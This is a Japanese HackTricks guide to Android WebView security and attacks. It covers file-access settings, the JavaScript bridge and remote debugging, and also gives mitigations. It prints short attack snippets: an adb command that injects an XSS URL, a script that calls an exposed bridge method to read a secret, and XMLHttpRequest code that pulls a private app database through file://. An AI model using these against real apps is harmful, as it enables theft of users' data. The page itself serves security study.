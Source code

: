 # Webview Attacks

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## WebViewの設定とセキュリティに関するガイド

### WebViewの脆弱性の概要

Android開発の重要な側面は、WebViewの正しい取り扱いです。このガイドでは、WebViewの使用に関連するリスクを軽減するための主要な設定とセキュリティプラクティスを強調します。

![WebViewの例](<../../.gitbook/assets/image (1190).png>)

### **WebViewにおけるファイルアクセス**

デフォルトでは、WebViewはファイルアクセスを許可します。この機能は、Android APIレベル3（Cupcake 1.5）以降利用可能な`setAllowFileAccess()`メソッドによって制御されます。**android.permission.READ\_EXTERNAL\_STORAGE**権限を持つアプリケーションは、ファイルURLスキーム（`file://path/to/file`）を使用して外部ストレージからファイルを読み取ることができます。

#### **非推奨機能：ファイルURLからのユニバーサルアクセスとファイルアクセス**

* **ファイルURLからのユニバーサルアクセス**：この非推奨機能は、ファイルURLからのクロスオリジンリクエストを許可し、潜在的なXSS攻撃による重大なセキュリティリスクをもたらしました。デフォルト設定は、Android Jelly Bean以降を対象とするアプリでは無効（`false`）です。
* この設定を確認するには、`getAllowUniversalAccessFromFileURLs()`を使用します。
* この設定を変更するには、`setAllowUniversalAccessFromFileURLs(boolean)`を使用します。
* **ファイルURLからのファイルアクセス**：この機能も非推奨で、他のファイルスキームURLからのコンテンツへのアクセスを制御しました。ユニバーサルアクセスと同様に、デフォルトはセキュリティ向上のために無効です。
* 確認には`getAllowFileAccessFromFileURLs()`を使用し、設定には`setAllowFileAccessFromFileURLs(boolean)`を使用します。

#### **安全なファイル読み込み**

アセットやリソースにアクセスしながらファイルシステムアクセスを無効にするには、`setAllowFileAccess()`メソッドを使用します。Android R以降では、デフォルト設定は`false`です。

* `getAllowFileAccess()`で確認します。
* `setAllowFileAccess(boolean)`で有効または無効にします。

#### **WebViewAssetLoader**

**WebViewAssetLoader**クラスは、ローカルファイルを読み込むための現代的なアプローチです。これは、ローカルアセットやリソースにアクセスするためにhttp(s) URLを使用し、同一オリジンポリシーに沿ってCORS管理を容易にします。

### loadUrl

これは、webview内で任意のURLを読み込むために使用される一般的な関数です：
```java
webview.loadUrl("<url here>")
```
Ofc、潜在的な攻撃者は、アプリケーションが読み込む**URL**を決して**制御**できるべきではありません。

### **JavaScriptとIntentスキームの処理**

* **JavaScript**: WebViewではデフォルトで無効になっており、`setJavaScriptEnabled()`を介して有効にできます。適切な保護策なしにJavaScriptを有効にすると、セキュリティの脆弱性を引き起こす可能性があるため、注意が必要です。
* **Intentスキーム**: WebViewは`intent`スキームを処理でき、注意深く管理しないと脆弱性につながる可能性があります。ある脆弱性の例は、クロスサイトスクリプティング（XSS）攻撃を実行するために悪用される可能性のある、公開されたWebViewパラメータ「support\_url」に関するものでした。

![Vulnerable WebView](<../../.gitbook/assets/image (1191).png>)

adbを使用した悪用の例：

{% code overflow="wrap" %}
```bash
adb.exe shell am start -n com.tmh.vulnwebview/.SupportWebView –es support_url "https://example.com/xss.html"
```
{% endcode %}

### Javascript Bridge

Androidには、**JavaScript**がWebView内で**ネイティブAndroidアプリの機能**を呼び出すことを可能にする機能が提供されています。これは、`addJavascriptInterface`メソッドを利用することで実現され、JavaScriptとネイティブAndroid機能を統合します。これは_ウェブビューJavaScriptブリッジ_と呼ばれます。このメソッドはWebView内のすべてのページが登録されたJavaScriptインターフェースオブジェクトにアクセスできるため、機密情報がこれらのインターフェースを通じて漏洩する場合、セキュリティリスクがあるため注意が必要です。

* **Androidバージョン4.2未満をターゲットとするアプリには、極めて注意が必要です**。これは、悪意のあるJavaScriptを通じてリモートコード実行を可能にする脆弱性が存在するためです。

#### JavaScriptブリッジの実装

* **JavaScriptインターフェース**はネイティブコードと相互作用でき、クラスメソッドがJavaScriptに公開される例が示されています：
```javascript
@JavascriptInterface
public String getSecret() {
return "SuperSecretPassword";
};
```
* JavaScript Bridgeは、WebViewにインターフェースを追加することで有効になります：
```javascript
webView.addJavascriptInterface(new JavascriptBridge(), "javascriptBridge");
webView.reload();
```
* JavaScriptを通じた潜在的な悪用、例えばXSS攻撃によって、公開されたJavaメソッドを呼び出すことが可能です：
```html
<script>alert(javascriptBridge.getSecret());</script>
```
* リスクを軽減するために、**JavaScriptブリッジの使用を制限**し、APKに同梱されたコードにのみ制限し、リモートソースからのJavaScriptの読み込みを防ぎます。古いデバイスの場合、最小APIレベルを17に設定します。

### リフレクションベースのリモートコード実行 (RCE)

* 文書化された方法により、特定のペイロードを実行することでリフレクションを介してRCEを達成できます。ただし、`@JavascriptInterface`アノテーションは不正なメソッドアクセスを防ぎ、攻撃面を制限します。

### リモートデバッグ

* **リモートデバッグ**は**Chrome Developer Tools**を使用して可能で、WebViewコンテンツ内での相互作用や任意のJavaScriptの実行を可能にします。

#### リモートデバッグの有効化

* アプリケーション内のすべてのWebViewに対してリモートデバッグを有効にするには：
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
WebView.setWebContentsDebuggingEnabled(true);
}
```
* アプリケーションのデバッグ可能な状態に基づいてデバッグを条件付きで有効にするには:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
{ WebView.setWebContentsDebuggingEnabled(true); }
}
```
## 任意のファイルを抽出する

* XMLHttpRequestを使用して任意のファイルの抽出を示します:
```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
alert(xhr.responseText);
}
}
xhr.open('GET', 'file:///data/data/com.authenticationfailure.wheresmybrowser/databases/super_secret.db', true);
xhr.send(null);
```
## 参考文献

* [https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)
* [https://github.com/authenticationfailure/WheresMyBrowser.Android](https://github.com/authenticationfailure/WheresMyBrowser.Android)
* [https://developer.android.com/reference/android/webkit/WebView](https://developer.android.com/reference/android/webkit/WebView)
* [https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1](https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1)
* [https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I](https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
